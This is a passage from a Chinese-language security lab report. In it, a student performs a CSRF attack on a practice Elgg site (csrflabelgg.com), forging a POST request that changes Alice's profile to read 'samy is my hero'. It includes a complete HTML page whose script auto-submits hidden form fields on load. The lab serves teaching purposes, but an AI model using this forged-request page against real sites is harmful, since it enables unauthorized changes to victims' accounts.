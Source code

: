 ​		观察到已经添加Samy为好友

<img src="C:\Users\86199\Desktop\web图片\b.png" alt="b" style="zoom:33%;" />

#### 3.3.2 任务二：使用POST请求的CSRF攻击

> ​		Samy想篡改Alice的主页，使得Alice的主页上显示“Samy is my hero”。假如你是Samy，发起攻击的一种方法是向Alice的Elgg账户发送消息（电子邮件），假设Alice一定会点击该消息内的URL。请构建该网页的内容：攻击目的是修改Alice的个人资料。

​		以Alice身份登录并尝试修改个人资料，同时用HTTPHeaderLive抓取信息并分析：

<img src="C:\Users\86199\Desktop\web图片\c.png" alt="c" style="zoom:30%;" />

​		观察到URL值应为/action/profile/edit,提交的表单中需要包含需要修改信息的用户GUID，通过Samy账户试图添加Alice为好友可知Alice的GUID为42

![d](C:\Users\86199\Desktop\web图片\d.png)

​		因此编写恶意网页信息如下：

```html
<html><body>
	<h1>This page forges an HTTP POST request.</h1>
	<script type="text/javascript">
		function post(url, fields) {
			//创建一个<form>元素
			var p=document.createElement("form");//构建表单
			p.action = url;
			p.innerHTML = fields ;
			p.target = "_self" ;
			p.method = "post" ;
			//将表单追加到当前页面
			document.body.appendChild(p) ;
			//提交表单.
			p.submit();
		}
		function csrf_hack() {
			var fields;
			fields += "<input type='hidden' name='name' value='Alice'>";
			fields += "<input type='hidden' name='description' value='samy is my hero'>";
			fields += "<input type='hidden' name='accesslevel[description]' value='2' >";
			fields += "<input type='hidden' name='briefdescription' value=''>";
			fields += "<input type='hidden' name='accesslevel[briefdescription]' value='2'>";
			fields += "<input type='hidden' name='location' value=''>";
			fields += "<input type='hidden' name='accesslevel[location]' value='2'>";
			fields += "<input type='hidden' name='guid' value='42'>" ;
			var url = "http://www.csrflabelgg.com/action/profile/edit";
			post(url,fields) ;
		}
		//在加载页面后调用csrf_hack ( )
		window.onload=function(){csrf_hack(); }
	</script>
</body></html>
```

